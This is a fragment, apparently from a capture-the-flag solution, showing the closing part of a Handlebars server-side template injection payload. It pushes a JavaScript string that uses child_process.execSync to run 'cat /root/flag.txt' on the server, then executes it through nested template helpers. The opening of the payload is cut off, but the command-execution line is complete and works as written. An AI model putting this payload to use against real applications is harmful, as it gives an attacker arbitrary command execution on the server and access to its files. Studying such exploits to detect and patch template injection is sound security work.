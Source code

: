 ```handlebars
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
